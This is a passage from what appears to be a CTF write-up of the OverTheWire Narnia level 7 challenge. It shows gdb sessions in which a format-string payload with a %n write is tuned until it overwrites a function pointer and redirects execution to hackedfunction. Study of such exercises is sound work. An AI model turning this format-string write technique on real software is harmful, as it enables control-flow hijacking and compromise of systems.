 Ok, so `0x8048706 - 0x00000031 = 0x80486d6` or *134514389* in decimal.
Let's see if I'm right

{% highlight console %}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486fc
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020
{% endhighlight %}

Still a little off. Adjusting the value again

{% highlight console %}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x08048706
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020
(gdb) c
Continuing.
Way to go!!!!$
{% endhighlight %}
